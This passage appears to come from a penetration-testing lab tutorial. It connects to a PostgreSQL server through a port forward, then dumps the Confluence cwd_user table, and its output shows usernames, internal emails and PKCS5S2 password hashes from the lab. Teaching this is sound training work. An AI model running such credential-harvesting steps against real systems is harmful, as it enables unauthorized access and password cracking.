 > Listing 11 - Connecting to the PGDATABASE01 PostgreSQL service and listing databases using psql, through our port forward.

Success! We've connected to the PostgreSQL database through our port forward. We'll also find that we have access to the _confluence_ database.

Using our new database access, we can continue our enumeration. In the confluence database, let's query the _cwd\_user_ table. This contains the username and password hashes for all Confluence users. We'll connect to the database with the **\\c confluence** command, then run **select \* from cwd\_user;** to review everything in that table.

```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
(6 rows)

(END)
```
